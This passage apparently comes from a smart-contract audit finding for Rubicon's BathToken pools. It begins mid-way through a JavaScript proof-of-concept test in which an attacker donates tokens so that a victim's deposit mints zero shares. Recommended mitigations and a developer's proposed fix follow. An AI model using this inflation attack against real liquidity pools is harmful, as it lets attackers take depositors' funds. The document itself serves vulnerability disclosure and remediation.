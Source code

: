         // Retrieve resulting bathToken address
        const newbathTokenAddress = await bathHouseInstance.getBathTokenfromAsset(testCoin.address);
        const _newBathToken = await BathToken.at(newbathTokenAddress);
    
        // 2. Attacker deposits large amount of testCoin into liquidity pool
        let attackerAmt = ethers.utils.parseUnits("1000000", decimals);
        await testCoin.approve(newbathTokenAddress, attackerAmt, {from: attacker});
        await testCoin.transfer(newbathTokenAddress, attackerAmt, {from: attacker});
    
        // 3. Victim deposits a smaller amount of testCoin, receives 0 shares
        // In this case, we use (1 million - 1) testCoin
        let victimAmt = ethers.utils.parseUnits("999999", decimals);
        await testCoin.approve(newbathTokenAddress, victimAmt, {from: victim});
        await _newBathToken.deposit(victimAmt, victim, {from: victim});
        
        assert.equal(await _newBathToken.balanceOf(victim), 0);
    });

### [](#recommended-mitigation-steps-3)Recommended Mitigation Steps

*   [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
*   In `_deposit()`, ensure the number of shares to be minted is non-zero:

`require(shares != 0, "No shares minted");`

**[bghughes (Rubicon) confirmed and commented](https://github.com/code-423n4/2022-05-rubicon-findings/issues/397#issuecomment-1171626800):**

> Great issue, what do y’all think of this code snippet as a solution:
> 
> \` /// @notice Deposit assets for the user and mint Bath Token shares to receiver function \_deposit(uint256 assets, address receiver) internal returns (uint256 shares) { uint256 \_pool = underlyingBalance(); uint256 \_before = underlyingToken.balanceOf(address(this));
> 
>         // **Assume caller is depositor**
>         underlyingToken.safeTransferFrom(msg.sender, address(this), assets);
>         uint256 _after = underlyingToken.balanceOf(address(this));
>         assets = _after.sub(_before); // Additional check for deflationary tokens
>     
>         if (totalSupply == 0) {
>             uint minLiquidityShare = 10**3;
>             shares = assets.sub(minLiquidityShare);
>             // Handle protecting from an initial supply spoof attack
>             _mint(address(0), (minLiquidityShare));
>         } else {
>             shares = (assets.mul(totalSupply)).div(_pool);
>         }
>     
>         // Send shares to designated target
>         _mint(receiver, shares);
>     
>         require(shares != 0, "No shares minted");
>         emit LogDeposit(
>             assets,
>             underlyingToken,
>             shares,
>             msg.sender,
>             underlyingBalance(),
>             outstandingAmount,
>             totalSupply
>         );
>         emit Deposit(msg.sender, msg.sender, assets, shares);